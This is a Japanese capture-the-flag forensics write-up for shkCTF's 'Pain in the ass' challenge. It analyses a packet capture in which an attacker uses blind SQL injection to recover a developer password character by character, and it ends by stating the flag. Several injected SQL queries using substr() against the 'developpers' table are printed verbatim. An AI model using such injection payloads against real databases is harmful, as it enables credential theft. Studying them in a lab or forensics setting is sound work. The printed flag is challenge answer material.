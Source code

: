 # Pain in the ass:Forensics:181pts
It looks like someone dumped our database. Please help us know what has been leaked ...  
[pain-in-the-ass.pcapng](pain-in-the-ass.pcapng)  

# Solution
pcapngなのでWiresharkで解析する。  
どうやらSQLインジェクションを試しているようだが、アルファベット順に試行されており、ユーザーネームもd4rk2phiとどこにもflagは見られない。  
stringsを行うと以下のような記述が見られた。  
```text
th3_fl4g_1s_n0t_h3r3
h3r3_1s_n0t_th3_fl4g
l00k1ng_f0r_34sy_p01nts
3rr0r_b4s3d_1s_s0_34sy
```
fl4gやb4s3dで文字列検索してやるとその上の部分のSQL文に含まれている一文字が以下のようになっていた。  
```text
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),1,1) = 's' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),2,1) = 'h' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),3,1) = 'k' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),4,1) = 'C' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),5,1) = 'T' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),6,1) = 'F' and '1';
~~~
```
これがflagであった。  
substrで一文字ずつサーチしているようなので、データベースへのアクセスが成功しているものを抽出するのが正攻法(たぶん)。  

## shkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}